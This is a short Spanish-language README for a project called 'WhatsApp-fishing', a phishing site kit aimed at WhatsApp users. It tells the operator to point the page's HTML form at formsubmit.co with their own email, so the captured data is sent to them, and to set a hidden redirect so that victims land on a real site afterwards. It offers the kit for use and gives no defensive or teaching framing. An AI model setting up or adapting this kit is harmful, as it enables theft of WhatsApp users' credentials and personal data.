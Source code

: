 # WhatsApp-fishing
WhatsApp_fishing web

## website para fishing para Whatsapp

# requerimientos

> no se requiere ningún tipo de plugin o extensión

# configuración 

> configuración de envío de datos

> efitar la sección de form donde se encuentra el username para remplazar por su correo
>
```html
 <form action="https://formsubmit.co/username@gmail.com" method="POST">
```

# enlace de archivos 

> para enlazar el index.html y el código.html se tiene que proporcionar el link creado por el hosting
>
> se tiene que editar el redireciona para que apunte ala web se edita la siguiente sección

```html
<input type="hidden" name="_next" value="url_web">
```
# recursos

> puedes utilizar los load implementado en los archivos :)
